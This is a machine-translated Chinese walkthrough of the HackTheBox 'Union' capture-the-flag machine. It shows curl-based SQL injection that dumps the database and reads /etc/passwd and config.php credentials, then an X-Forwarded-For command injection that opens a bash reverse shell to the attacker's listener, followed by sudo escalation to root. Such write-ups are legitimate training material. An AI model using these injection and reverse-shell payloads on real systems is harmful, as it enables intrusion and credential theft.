










# 来自 HackTheBox 的联合—详细演练

> 原文：<https://infosecwriteups.com/union-from-hackthebox-detailed-walkthrough-66ef8663be61?source=collection_archive---------3----------------------->

向您展示完成盒子所需的所有工具和技术。

# 机器信息



来自 HackTheBox 的工会

Union 是 HackTheBox 上的中型机器。由 [Ippsec](https://twitter.com/ippsec) 为[UHC](https://en.hackingesports.com.br/uhc)2021 年 11 月总决赛创建，它专注于将 SQL 注入作为攻击载体。

我们的起点是一个端口为 80 的网站，它有一个 SQLi 漏洞。我们用它来从后端数据库转储信息，最终得到一个我们可以在网站上提交的标志。这为 SSH 访问打开了端口 22，并允许我们执行进一步的 SQLi 攻击，泄露我们用于登录的凭据。检查网站的源代码发现了一个漏洞，我们利用这个漏洞使用 X-Forwarded-For 头来获得反向外壳。升级到根是微不足道的。

所需技能是 SQLi 的基础知识。学到的技能是利用 SQLi 和 X-Forwarded-来使用 curl。

[](https://www.hackthebox.com/home/machines/profile/418) [## 破解盒子::渗透测试实验室——联盟

### 登录 Hack The Box 平台，让您的笔测试和网络安全技能更上一层楼！

www.hackthebox.com](https://www.hackthebox.com/home/machines/profile/418) 

# 初步侦察

像往常一样，让我们从 Nmap 开始:



Nmap TCP 端口扫描

我们有一个开放的端口，让我们看看:



简单网页

这里没有太多，让我们看看我是否能竞争:



检查我是否能参加比赛

我可以！单击该链接会将我们带到挑战页面，在这里我们需要输入一个标志:



用于输入标志的框

在这一点上，我们能做的不多，但当然这是 CTF，所以我们需要开始仔细观察。“联合”这个机器名称暗示着我们的前进道路是经过 SQL 注入的。我以前在很多机器上做过这方面的工作，可能这里最相关的是 TryHackMe 的 SQHell。我的帖子[在这里](https://pencer.io/ctf/ctf-thm-sqhell/)对它进行了深入的报道，所以如果你需要一本入门书，也许可以先看看那里。

# SQLi 调查

我更喜欢命令行，所以让我们用 Curl 来做这件事。提交玩家的第一个测试:

```
┌──(root💀kali)-[~/htb/unicode]
└─# curl 10.10.11.128/index.php -d 'player=pencer' Congratulations pencer you may compete in this tournament!<br />
<br />Complete the challenge <a href="/challenge.php">here</a>
```

如果我们尝试使用 box creator ippsec，我们会得到不同的结果:

```
┌──(root💀kali)-[~/htb/unicode]
└─# curl 10.10.11.128/index.php -d 'player=ippsec'Sorry, ippsec you are not eligible due to already qualifying.
```

如果我们尝试最简单的 SQLi 技术，即单引号:

```
┌──(root💀kali)-[~/htb/unicode]
└─# curl 10.10.11.128/index.php -d "player=ippsec'"

Congratulations ippsec' you may compete in this tournament!<br />
<br />Complete the challenge <a href="/challenge.php">here</a>
```

这是行不通的，但是如果我们在:

```
┌──(root💀kali)-[~/htb/unicode]
└─# curl 10.10.11.128/index.php -d "player=ippsec'-- -"Sorry, ippsec you are not eligible due to already qualifying.
```

我们可以看到它是有效的，因为对输入的玩家名字的检查与 ippsec 匹配，所以我们知道后面的字符已经被注入。

# 数据库枚举

有了如何利用它的知识，我们现在可以开始从后端数据库中检索有用的数据。就像我们在 SQHell 房间里做的那样，我们可以参考 mysql 文档。在[之后](https://dev.mysql.com/doc/refman/8.0/en/information-schema-schemata-table.html)我们可以看看这些模式:

```
┌──(root💀kali)-[~/htb/unicode]
└─# curl 10.10.11.128/index.php -d "player=pencer' union select group_concat(SCHEMA_NAME) from INFORMATION_SCHEMA.schemata -- -"Sorry, mysql,information_schema,performance_schema,sys,november you are not eligible due to already qualifying.
```

这是可行的，我们检索可用的数据库。让我们使用 sed 整理响应，只显示我们感兴趣的信息:

```
┌──(root💀kali)-[~/htb/unicode]
└─# curl -s 10.10.11.128/index.php -d "player=pencer' union select group_concat(SCHEMA_NAME) from INFORMATION_SCHEMA.SCHEMATA -- -" | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'mysql,information_schema,performance_schema,sys,november
```

在上面，我刚刚使用 sed 剪切了我们想要看到的响应前后的文本。现在我们知道数据库名为“11 月”,让我们看看表格:

```
┌──(root💀kali)-[~/htb/unicode]
└─# curl -s 10.10.11.128/index.php -d "player=pencer' union select group_concat('TABLE:',TABLE_NAME,'---->-COLUMN:',COLUMN_NAME,'\n') from INFORMATION_SCHEMA.COLUMNS where TABLE_SCHEMA = 'november' -- -" | sed 's/Sorry, //' | sed 's/,//' | sed 's/ you are not eligible due to already qualifying.//'table:flag---->-column:one
table:players---->-column:player
```

同样，我已经删除了我们感兴趣的部分，并添加了标签，以使我们清楚地看到了什么。我们有两张表，让我们来看看它们:

```
┌──(root💀kali)-[~/htb/unicode]
└─# curl -s 10.10.11.128/index.php -d "player=pencer' union select group_concat(player) from players -- -" | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'ippsec,celesian,big0us,luska,tinyboy
```

玩家表有 ippsec 和其他一些。注意，我在这里使用 group concat 来检索表中的所有条目，并将它们作为单个条目返回。没有它，你只能通过迭代一次看到一个。

# UHC 国旗

现在旗表:

```
┌──(root💀kali)-[~/htb/unicode]
└─# curl -s 10.10.11.128/index.php -d "player=pencer' union select group_concat(one) from flag -- -" | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'UHC{F1rst_5tep_2_Qualify}
```

只有一个条目我们可以在网站上试试:



IP 地址已被授予访问 SSH 的权限

我们也可以用 curl 来代替浏览器。发送玩家请求并查看响应的标题:



玩家提交页面的回应

将上面我们看到的分配给 PHPSESSID 的 Cookie 与我们找到的标志一起使用，用 curl 发送:

```
┌──(root💀kali)-[~/htb/unicode]
└─# curl -s -X POST -b 'PHPSESSID=tie6r4uno69o57gbuesapskfku' --data-binary 'flag=UHC{F1rst_5tep_2_Qualify}' 'http://10.10.11.128/challenge.php' -L | grep SSH<h3 class="text-white">Your IP Address has now been granted SSH Access.</h3>
```

我们会看到与在浏览器中相同的消息。注意，我使用-L 标志告诉 curl 跟踪从 challenge.php 页面到 firewall.php 页面的重定向。

# PHP 会话操作

我们在这里不需要做更多的事情，但是为了改进我们的 bashfu，可以进一步使用 sed 来截取响应，并将 PHPSESSID 放入一个变量中:

```
┌──(root💀kali)-[~/htb/unicode]
└─# PHPSESSID=$(curl -v -s 10.10.11.128/index.php -d "player=pencer" 2>&1 | grep PHPSESSID | sed 's/< Set-Cookie: PHPSESSID=//' | sed 's/; path=\///')
```

然后，我们可以在需要认证会话时使用该变量。这里我们可以做和上面一样的事情，但是使用我们的变量:



使用变量传递 PHPSESSID

# SSH 访问

玩够了，让我们检查 SSH 现在在端口 22 上是打开的:

```
┌──(root💀kali)-[~/htb/unicode]
└─# nmap -p 22 10.10.11.128
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-09 17:09 GMT
Nmap scan report for 10.10.11.128
Host is up (0.023s latency).

PORT   STATE SERVICE
22/tcp open  ssh
```

是的，我们现在可以访问 SSH，但仍然需要凭证。使用我们的 SQLi 可以读取文件，这里的文档[将我们指向 load_file 函数。让我们使用/etc/passwd 文件对此进行测试:](https://dev.mysql.com/doc/refman/8.0/en/string-functions.html#function_load-file)

```
┌──(root💀kali)-[~/htb/unicode]
└─# curl -s 10.10.11.128/index.php -d "player=pencer' union select load_file('/etc/passwd') -- -" | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//' 2>&1 | grep "/bin/bash"root:x:0:0:root:/root:/bin/bash
htb:x:1000:1000:htb:/home/htb:/bin/bash
uhc:x:1001:1001:,,,:/home/uhc:/bin/bash
```

我们有三个用户可以登录。通过更多的枚举，我们可以读取其他有用的文件，最终我找到了 web 服务器配置文件:

```
┌──(root💀kali)-[~/htb/unicode]
└─# curl -s 10.10.11.128/index.php -d "player=pencer' union select load_file('/var/www/html/config.php') -- -" | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'<?php
  session_start();
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-<HIDDEN>-pw";
  $dbname = "november";
  $conn = new mysqli($servername, $username, $password, $dbname);
?>
```

SSH 访问会重用这些凭据:

```
┌──(root💀kali)-[~/htb/unicode]
└─# ssh uhc@10.10.11.128
uhc@10.10.11.128's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-77-generic x86_64)
Last login: Mon Nov  8 21:19:42 2021 from 10.10.14.8
uhc@union:~$
```

# 用户标志

我们终于进来了，但只是作为一个低级用户。让我们检查一下我们是谁，然后抓住用户标志:

```
uhc@union:~$ id
uid=1001(uhc) gid=1001(uhc) groups=1001(uhc)

uhc@union:~$ cat user.txt 
cc9a85cd4613c6e45c718f8c2c075ff7
```

# 源代码审查

我在盒子周围找了一大堆，最终还是找到了网根，firewall.php 的那个很有趣:



Firewall.php 来源

# x-转发-用于剥削

它使用 X-Forwarded-For (XFF)来识别客户端的原始 IP。我报道了利用这个[在这里](https://pencer.io/ctf/ctf-thm-sqhell/#flag-2---blindtime---curl-method)的一个试衣间。无需对用户输入进行净化，这可以很容易地操作。让我们用它再次获取/etc/passwd 文件:



使用 X-FORWARDED-FOR 抓取 passwd 文件

# 反向外壳

这很有效，所以是时候获得一个反向外壳了。我刚刚使用了一个简单的 PenTestMonkey，在另一个终端中启动 nc 侦听，然后发送这个:

```
┌──(root💀kali)-[~/htb/unicode]
└─# curl -X GET -H 'X-FORWARDED-FOR: ;bash -c "bash -i >& /dev/tcp/10.10.14.13/1337 0>&1";' --cookie "PHPSESSID=$PHPSESSID" 'http://10.10.11.128/firewall.php'
```

切换以查看我们已经连接了外壳:

```
┌──(root💀kali)-[~]
└─# nc -nlvp 1337
listening on [any] 1337 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.11.128] 35292
bash: cannot set terminal process group (805): Inappropriate ioctl for device
bash: no job control in this shell
www-data@union:~/html$
```

# 权限提升

乍一看，我认为所有的努力，我只获得作为 www-data，但检查 sudo 显示我们的路径到根是很好的和简单的:

```
www-data@union:~/html$ sudo -l
sudo -l
Matching Defaults entries for www-data on union:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on union:
    (ALL : ALL) NOPASSWD: ALL
www-data@union:~/html$
```

# 根标志

我们可以以 root 用户身份运行任何命令，让我们获取标志并完成框:

```
www-data@union:~/html$ sudo /bin/bash
sudo /bin/bash
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
fd73c7c952ca60ad21b71132697bdfd7
```

我希望你和我一样喜欢那个盒子，尤其是尽可能多地从终端尝试。

又做了一个。下次见。

如果你喜欢这篇文章，请给我一两个掌声(这是免费的！)

推特—[https://twitter.com/pencer_io](https://twitter.com/pencer_io)
网站— [https://pencer.io](https://pencer.io/)

*原载于 2022 年 1 月 10 日*[*https://pencer . io*](https://pencer.io/ctf/ctf-htb-union)*。*

# 🔈 🔈Infosec Writeups 正在组织其首次虚拟会议和网络活动。如果你对信息安全感兴趣，这是最酷的地方，有 16 个令人难以置信的演讲者和 10 多个小时充满力量的讨论会议。[查看更多详情并在此注册。](https://iwcon.live/)

[](https://iwcon.live/) [## IWCon2022 - Infosec 书面报告虚拟会议

### 与世界上最优秀的信息安全专家建立联系。了解网络安全专家如何取得成功。将新技能添加到您的…

iwcon.live](https://iwcon.live/)